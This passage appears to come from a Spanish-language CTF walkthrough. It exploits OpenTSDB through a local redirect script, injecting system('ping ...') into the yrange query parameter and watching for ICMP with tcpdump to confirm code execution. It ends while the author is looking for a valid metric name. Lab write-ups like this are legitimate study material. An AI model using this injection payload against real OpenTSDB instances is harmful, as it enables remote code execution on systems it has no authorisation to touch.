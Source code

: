 ```bash
tcpdump -i tun0 icmp -n
```

Usamos el comando en python pero con la cadena de antes y vemos que pasa.

No olvidar todos los pasos ...




```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

![](assets/2022-06-12-11-55-21.png)

Vemos que está leyendo aunque parece un fallo, leyendo el último error... aparece **net.opentsdb.uid.nosuchuniquename** no such name for 'metrics':sys.cpu.nice ...

En nuestro servidor parece que esa métrica no existe, por lo que intentaríámos buscar otra.

Buscamos en google opentsdb list metrics stackoverflow 

![](assets/2022-06-12-11-59-54.png)
